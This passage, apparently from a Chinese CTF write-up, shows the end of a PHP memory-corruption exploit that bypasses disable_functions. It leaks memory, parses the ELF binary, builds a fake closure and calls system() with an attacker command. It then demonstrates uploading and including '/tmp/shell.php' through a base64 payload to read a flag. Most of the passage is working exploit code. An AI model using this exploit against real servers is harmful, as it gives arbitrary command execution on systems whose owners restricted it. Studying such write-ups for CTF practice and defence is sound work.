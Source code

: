 ```php
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}
```

###  演示过程

上传文件

![image-20220327001004963](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271109577.png)

包含得flag

```
include('/tmp/shell.php');base64编码之后得到：aW5jbHVkZSgnL3RtcC9zaGVsbC5waHAnKTs=
```

![image-20220327001059977](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271109588.png)



## 利用 Backtrace
